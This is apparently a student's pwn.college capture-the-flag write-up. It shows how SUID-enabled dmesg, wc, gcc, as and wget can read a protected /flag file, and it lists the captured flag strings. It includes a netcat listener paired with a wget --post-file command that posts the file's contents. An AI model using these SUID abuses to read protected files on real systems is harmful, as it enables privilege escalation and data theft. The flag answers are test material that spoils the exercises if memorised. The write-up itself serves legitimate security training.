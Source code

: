 Answer: pwn.college{Uqh_AOfFq2BgYf_4cVJorF4zkGD.0FO4EDL0MjM3QzW}

`dmesg` is to print and control all messages from the kernel right buffer, which is a data structure used to store log message. With the option `-F` reads the messages from the given file.

```bash
dmesg -F /flag
```

Level 47 - the SUID bit on /usr/bin/wc

Answer: pwn.college{M46b9kvru240lgAq0FTNR37YcW9.0VO4EDL0MjM3QzW}

`wc` prints newline, word, and byte counts for each file. `--files0-from=filename` reads input from the file.

```bash
wc --files0-from=/flag
```

Level 48 - the SUID bit on /usr/bin/gcc

Answer: pwn.college{UnvGd7PJc2Li7MUWz4cE8NAhPbe.0FM5EDL0MjM3QzW}

`gcc` is a feature-rich set of compilers for various programming languages, most notably C and C++, allowing developers to compile source code into executable programs. With `-x` option, I can specify explicitly the language for the following input files. I set c to compile this file.

```bash
gcc -x c /flag
```

Level 49 - the SUID bit on /usr/bin/as

Answer: pwn.college{8U-rX7iW3yukkktKWa-xDQppk7R.0VM5EDL0MjM3QzW}

`as` reads assembly language(a low-level programming language that is closer to machine code) instructions from a source file and produces an object file in binary format.

```bash
as /flag
```

Level 50 - the SUID bit on /usr/bin/wget

Answer: pwn.college{gJZac_7kEHApg98oKE2-XE1wghC.0lM5EDL0MjM3QzW}

`wget` allows users to download files from the internet. It supports HTTP, HTTPS, and FTP protocoles, as well as retrieval through HTTP proxies.

In order to solve this question, I opened a netcat listener on port 8888, `nc -l -p 8888&`. `-l` tells Netcat to listen incoming connections, `-p 8888` specifies the port number on which Netcat listens, and `&` places this command in the background.

Additionally, `--post-file=/flag` tells `wget` to read the content of the `/flag` file and use them as the data for an HTTP POST request. And I specified the local address and port number where Netcat is listening.

Finally, after executing the `wget` command, `wget` atteps to send the contents of `/flag` to the specified address(`http://127.0.0.1:8888`). And, Netcat, listening on port 8888, receives the connection and prints the contents of the `/flag` file to the terminal where it is running. This allowed me to read the file.

```bash
nc -l -p 8888 &
wget --post-file=/flag http://127.0.0.1:8888
```

Level 51 - the SUID bit on /usr/bin/ssh-keygen

Answer: 

---end---
